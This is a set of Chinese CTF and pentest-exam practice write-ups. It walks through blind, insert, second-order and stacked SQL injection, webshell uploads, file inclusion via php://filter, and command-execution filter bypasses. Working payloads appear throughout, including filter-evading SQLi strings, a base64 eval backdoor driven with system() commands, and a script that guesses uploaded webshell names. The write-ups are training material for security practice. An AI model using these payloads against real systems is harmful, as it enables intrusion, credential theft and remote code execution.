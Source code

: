 [嘤嘤嘤]timesql #SQL注入漏洞 时间/盲注
题名写了timesql但是测试直接异或盲注他回显不一致，就用异或盲注，服务器太烂了，用时间盲注时间一大一小看不清结果。
全程用bp做
爆数据库名 为hazel
```
username=admin'%20anandd%20subsubstrstr(database()%2c§1§%2c1)%3d'§2§'%20%23&password=114514
```
![[Pasted image 20240327161324.png]]
爆表名长度 为5
```
username=admin'%20anandd%20length((selselectect%20table_name%20frfromom%20infoorrmation_schema.tables%20whwhereere%20table_schema%3ddatabase()))%20%3d%20§1§%20%23
```
![[Pasted image 20240328190530.png]]
爆表名 为 users
```
username=admin'%20anandd%20subsubstrstr((selselectect%20table_name%20frfromom%20infoorrmation_schema.tables%20whwhereere%20table_schema%3ddatabase())%2c§1§%2c1)%20%3d%20'§a§'%20%23
```
![[Pasted image 20240328191209.png]]
爆字段名 为 id,username,password
```
username=admin'%20anandd%20subsubstrstr((selselectect%20group_concat(column_name)%20frfromom%20infoorrmation_schema.columns%20whwhereere%20table_name%3d'users'%20anandd%20table_schema%3ddatabase())%2c§1§%2c1)%20%3d%20'§i§'%20%23
```
![[Pasted image 20240328193336.png]]
爆字段(payload列表注意加上flag所需的字符)：
```
admin'%20anandd%20subsubstrstr((selselectect%20group_concat(id%2c%22%3a%22%2cusername%2c%22%3a%22%2cpasswoorrd%2c%22%3a%22)%20frfromom%20hazel.users)%2c§1§%2c1)%20%3d%20'§i§'%20%23
```

| id  | username | password                                    |
| --- | -------- | ------------------------------------------- |
| 0   | admin    | admin666666                                 |
| 1   | hazel    | hazel{d3f3bac6-3fe8-4e5e-8680-40a5b0003799} |

[嘤嘤嘤]insertsql #SQL注入漏洞 
insert注入，查看页面，有上传文章的功能
![[Pasted image 20240329124443.png]]
尝试在标题注入，其显示上传失败，并快速重定向至主页面，但是显示了一瞬间的sql语句，打开BP的intercept,显示出了其使用的sql语句： ^d26139
```
insert into article(title,author,description,content,dateline) values('114514' and 1=2#','114514','114514','114514',1711687035)
```
可以看到除了标题还有4个字段，那就在标题构造注入：
```
114514',database(),user(),'114514',1919810)#
```
去管理文章的页面点击修改我们刚发布的文章，可以看到其回显了数据库名以及用户名：
![[Pasted image 20240329124936.png]]
爆表名 为article,hazel
```
10086',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'10086','10086','1919810')#
```

^1e5e69

![[Pasted image 20240329125252.png]]
爆字段名 为 id,flag_is_here
```
10086',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="hazel"),'10086','10086','1919810')#
```
![[Pasted image 20240329125514.png]]
dump
```
10086',(select flag_is_here from hazel.hazel where id=2),'10086','10086','1919810')#
```

| id  | flag_is_here                                |
| --- | ------------------------------------------- |
| 1   | shuaige                                     |
| 2   | hazel{863184db-8501-49b4-a8c9-96bc10101c72} |

[嘤嘤嘤]成绩单 #SQL注入漏洞 
页面只有一个查询框，查1出成绩，查异常值不出，尝试布尔盲注猜解闭合方式为：单引号闭合
`1' and 1=2 #`
爆数据库名长度 为 5
```
id=1'+and+length(database())%3d§1§%23
```
![[Pasted image 20240329131949.png]]
爆数据库名 为 hazel
```
id=1'+and+substr(database(),§1§,1)%3d'§1§'%23
```
![[Pasted image 20240329132535.png]]
爆表名总长度 为 7
```
id=1'+and+length((select+group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()))%3d§1§%23
```
![[Pasted image 20240329132859.png]]
爆表名 为 fl4g,sc
```
id=1'+and+substr((select+group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()),§1§,1)%3d'§1§'%23
```
![[Pasted image 20240329133352.png]]
爆字段长度 为 10
```
id=1'+and+length((select+group_concat(column_name)+from+information_schema.columns+where+table_schema%3ddatabase()+and+table_name%3d'fl4g'))%3d§1§%23
```
![[Pasted image 20240329135041.png]]
dump长度 为42
```
id=1'+and+length((select+*+from+hazel.fl4g))%3d§1§%23
```
dump
```
id=1'+and+substr((select+*+from+hazel.fl4g),§1§,1)%3d'§1§'%23
```
```
hazel{8c4c152d-1aa9-4991-8aac-951ca6e3efa0}
```
[嘤嘤嘤]P1_1
base64加密注入，爆字段数找回显点（让他的不成立）不要用and，页面也不会回显错误，错误就不显示结果
[嘤嘤嘤]P1_2
[嘤嘤嘤]P1_3
```
<?php

@$a = $_POST['Hello'];

if(isset($a)){

@preg_replace("/\[(.*)\]/e",'\\1',base64_decode('W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10='));

}

?>

Hello

<br>

閫忚繃鐜拌薄鐪嬫湰璐紝涓栫晫寰堢畝鍗曪紒

W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10=

[@eval(base64_decode($_POST[z0]));]

z0=system('ls'); --> z0=c3lzdGVtKCdscycpOw==

Hello=12312321&z0=c3lzdGVtKCdscycpOw==

Hello=12312321&z0=c3lzdGVtKCd0YWMgLi4va2V5LnBocCcpOw==
```

^bf5f69

[嘤嘤嘤]P1_4
命令执行，
过滤了cat head tail cp mv vi vim
使用grep '\*' ../flag拿flag
[嘤嘤嘤]P1_5
直接禁用JS防止其生成随机数，登录
这题key错的
[嘤嘤嘤]P2_1
sql注入
过滤：
`空格 # union`
绕过：
`/**/ %23 ununionion`
不过只是让读取文件，直接loadfile
[嘤嘤嘤]P2_2
文件上传
直接传带图片头的图片拦截加马改phtml
[嘤嘤嘤]P2_3
文件包含
使用php://filter/read=convert.base64-encode/resource=..key.php
拿到flag
[嘤嘤嘤]P2_4
命令执行
过滤了ls cat，直接定义变量绕过
[嘤嘤嘤]P2_5
日志跳
[嘤嘤嘤]P3_1
二次注入
注册admin'#123，重置密码，改的是admin密码。
[嘤嘤嘤]P3_2
文件上传
很简单只做了文件头过滤，没过滤php，所以不要一上来试phtml，万一php就行呢
[嘤嘤嘤]P3_3
和[[EXAM特供WP#^bf5f69]]P1_3一样的
[嘤嘤嘤]P3_4
代审&命令执行
cmd参数长度小于30执行cmd但不回显。
使用反引号执行命令将其重定向至文件
有admin文件夹及其下的backdoor.php
构造命令超30，使用通配符减小长度。
```
GET /start/vul.php?cmd=echo+"`cat+../a*/*.php`">1.txt
```
[嘤嘤嘤]P3_5
命令执行
过滤了; ls php使用&& 变量 通配符绕过。
[嘤嘤嘤]P4_1
有文章上传功能，是insert注入和[[EXAM特供WP#^d26139]]一样
```
insert into article(title,author,description,content,dateline) values('1'','13123','3131','313',1713177034)
```
[嘤嘤嘤]P4_2
文件上传
直接传图片马
[嘤嘤嘤]P4_3
文件包含，但是没key
[嘤嘤嘤]P4_4
命令执行
```
<?php
error_reporting(0);
include "key4.php";
$a=$_GET["a"];
eval("\$o=strtolower(\"$a\");");
echo $o;
show_source(__FILE__);
?>
```
构造
`");system('ls');//`
闭合strlower,注释后面的
[嘤嘤嘤]P4_5
改cookie，base64加密的名字和直接写cookie里的isadmin
[嘤嘤嘤]P5_1
无
[嘤嘤嘤]P5_2
文件包含
获取日志，useragent传马
[嘤嘤嘤]P5_3
命令执行
过滤了 ；ls cat
使用&& 变量过
[嘤嘤嘤]P5_4
文件上传
直接传图片马
[嘤嘤嘤]P5_5
同上
[嘤嘤嘤]P6_1
sql注入
`http://hazelshishuaige.club:9111/start/index.php?uuid=983fd952-df4e-4b63-946f-f2e6bb0327d67' union select 1,(select group_concat(haha) from hazel.IS_KEY),3,4,5,6 and '1'='1`
过滤了注释符，爆列数得用union select，order by 无回显
[嘤嘤嘤]P6_2
文件上传
过滤了php,MIME头，敏感函数，evalassert等，以及文件头验证
直接传马，成功，不知道为什么php过滤没起作用
[嘤嘤嘤]P6_3
固定后缀00截断超长get都不起作用
直接内网机器挂http，用http协议拿马txt
[嘤嘤嘤]P6_4
挂错了，反序列挂的命令
[嘤嘤嘤]P6_5
失效访问控制
cookie改名字，isadmin
加XFF头本地访问。
[嘤嘤嘤]pte1_055
暴力破解带验证码直接关闭JS拦截此次正确的验证码重复请求
密码123qwe，flag在F1a9.php但是找不到
[嘤嘤嘤]pte1_051
sql注入
过滤了# ；“ -- or
`admin' Or 1=1 Or '1'='1`
拿到f1a9.php
[嘤嘤嘤]pte1_045
日志题，跳
[嘤嘤嘤]pte1_041
sql注入
闭合注释显示正常而and 1=1显示不正常的直接不要and
flag-{bmhbb1bbe71-f818-4743-a418-7a7854a4e42f}
flag错的
[嘤嘤嘤]pte1_025
日志题，跳
[嘤嘤嘤]pte1_fuzz
暴力破解+命令执行
禁用JS破解，输入base64命令
/tmp下没有flag
[嘤嘤嘤]pte1_024
命令执行
过滤了cat head tail cp mv
使用vi vim 或者tee或者变量都行
key错的
[嘤嘤嘤]pte1_022
文件上传，找专题练
[嘤嘤嘤]pte1_021
sql注入
数字型
过滤空格 union and 单引号
正常流程过
[嘤嘤嘤]pte1_002
文件上传，过
[嘤嘤嘤]pte1_033
用php://filter/convert.base64-encode/resource=
[嘤嘤嘤]pte3_00-01
sql注入
过滤空格 Union \#
[嘤嘤嘤]cms-sqlgun
sqlmap梭id不行
梭搜索功能成功
拿到admin/admin凭证
[嘤嘤嘤]pte5_6
```python
import hashlib

  

fdict = []

filename = input('filename:')

for i in range(1,100000):

    o=hashlib.md5()

    o.update((filename+str(i)).encode('utf-8'))

    fdict.append(o.hexdigest()+'.php\n')

with open('filedict.txt','x') as f:

    f.writelines(fdict)
```
上传114514.php 马
文件名形如58612212ea92229dfb02fb03026949d0.php
找到200请求即可
[嘤嘤嘤]pte_综合题1
`http://hazelshishuaige.club:26080/`
`113.120.11.226:26080`
`113.120.11.226:26389`
进入网站扫描目录phpadmin
`show variables like %secure_file_priv%`
确定上传文件权限
弱口令登入，执行into outfile写马
确定绝对路径：
`select load_file "C:||"`
[嘤嘤嘤]sql_duidie
堆叠语句注入，使用show语句，过滤了select，使用HANDLER读列见[[WP#^396303]]
[嘤嘤嘤]sql_changgui
过滤空格，or,